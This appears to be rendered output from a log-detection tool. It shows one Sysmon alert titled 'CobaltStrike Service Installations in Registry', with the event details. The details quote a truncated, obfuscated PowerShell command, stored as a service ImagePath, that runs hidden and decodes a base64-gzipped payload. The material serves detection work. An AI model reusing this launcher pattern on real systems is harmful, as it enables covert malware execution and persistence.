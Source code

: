     ├─────────────────────┼────────────────────────────────┼───────┼────────────────────────────────┼──────────┼───────────┼──────────────────────────┼──────────────────────────────────┤
    │ 2019-04-30 20:26:51 │ ‣ CobaltStrike Service         │ 1     │ Microsoft-Windows-Sysmon       │ 13       │ 9806      │ IEWIN7                   │ ---                              │
    │                     │ Installations in Registry      │       │                                │          │           │                          │ Details: "%%COMSPEC%% /b /c st   │
    │                     │                                │       │                                │          │           │                          │ art /b /min powershell.exe -no   │
    │                     │                                │       │                                │          │           │                          │ p -w hidden -noni -c \"if([Int   │
    │                     │                                │       │                                │          │           │                          │ Ptr]::Size -eq 4){$b='powershe   │
    │                     │                                │       │                                │          │           │                          │ ll.exe'}else{$b=$env:windir+'\   │
    │                     │                                │       │                                │          │           │                          │ \syswow64\\WindowsPowerShell\\   │
    │                     │                                │       │                                │          │           │                          │ v1.0\\powershell.exe'};$s=New-   │
    │                     │                                │       │                                │          │           │                          │ Object System.Diagnostics.Proc   │
    │                     │                                │       │                                │          │           │                          │ essStartInfo;$s.FileName=$b;$s   │
    │                     │                                │       │                                │          │           │                          │ .Arguments='-noni -nop -w hidd   │
    │                     │                                │       │                                │          │           │                          │ en -c &([scriptblock]::create(   │
    │                     │                                │       │                                │          │           │                          │ (New-Object IO.StreamReader(Ne   │
    │                     │                                │       │                                │          │           │                          │ w-Object IO.Compression.GzipSt   │
    │                     │                                │       │                                │          │           │                          │ ream((New-Object IO.MemoryStre   │
    │                     │                                │       │                                │          │           │                          │ am(,[Convert]::FromBase64Strin   │
    │                     │                                │       │                                │          │           │                          │ g(''H4sIAIuvyFwCA7VW+2/aSBD+OZ   │
    │                     │                                │       │                                │          │           │                          │ H6P1...                          │
    │                     │                                │       │                                │          │           │                          │ (use --full to show all content) │
    │                     │                                │       │                                │          │           │                          │ EventType: SetValue              │
    │                     │                                │       │                                │          │           │                          │ Image: "C:\\Windows\\system32\   │
    │                     │                                │       │                                │          │           │                          │ \services.exe"                   │
    │                     │                                │       │                                │          │           │                          │ ProcessGuid: 365ABB72-2586-5CC   │
    │                     │                                │       │                                │          │           │                          │ 9-0000-0010DC530000              │
    │                     │                                │       │                                │          │           │                          │ ProcessId: 460                   │
    │                     │                                │       │                                │          │           │                          │ RuleName: ""                     │
    │                     │                                │       │                                │          │           │                          │ TargetObject: "HKLM\\System\\C   │
    │                     │                                │       │                                │          │           │                          │ urrentControlSet\\services\\he   │
    │                     │                                │       │                                │          │           │                          │ llo\\ImagePath"                  │
    │                     │                                │       │                                │          │           │                          │ UtcTime: "2019-04-30 20:26:51.   │
    │                     │                                │       │                                │          │           │                          │ 934"                             │